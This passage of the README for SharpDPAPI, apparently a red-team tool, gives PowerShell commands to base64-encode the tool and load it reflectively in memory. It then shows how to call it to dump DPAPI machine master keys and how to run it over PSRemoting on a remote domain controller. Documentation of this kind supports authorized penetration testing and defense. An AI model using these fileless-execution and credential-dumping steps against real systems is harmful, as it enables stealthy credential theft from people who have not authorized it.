 If you want to run SharpDPAPI in-memory through a PowerShell wrapper, first compile the SharpDPAPI and base64-encode the resulting assembly:

    [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\SharpDPAPI.exe")) | Out-File -Encoding ASCII C:\Temp\SharpDPAPI.txt

SharpDPAPI can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded SharpDPAPI assembly string):

    $SharpDPAPIAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))

The Main() method and any arguments can then be invoked as follows:

    [SharpDPAPI.Program]::Main("machinemasterkeys")

#### Sidenote Sidenote: Running SharpDPAPI Over PSRemoting

Due to the way PSRemoting handles output, we need to redirect stdout to a string and return that instead. Luckily, SharpDPAPI has a function to help with that.

If you follow the instructions in [Sidenote: Running SharpDPAPI Through PowerShell](#sidenote-running-sharpdpapi-through-powershell) to create a SharpDPAPI.ps1, append something like the following to the script:

    [SharpDPAPI.Program]::MainString("machinemasterkeys")

You should then be able to run SharpDPAPI over PSRemoting with something like the following:

    $s = New-PSSession dc.theshire.local
    Invoke-Command -Session $s -FilePath C:\Temp\SharpDPAPI.ps1

Alternatively, SharpDPAPI `/consoleoutfile:C:\FILE.txt` argument will redirect all output streams to the specified file.
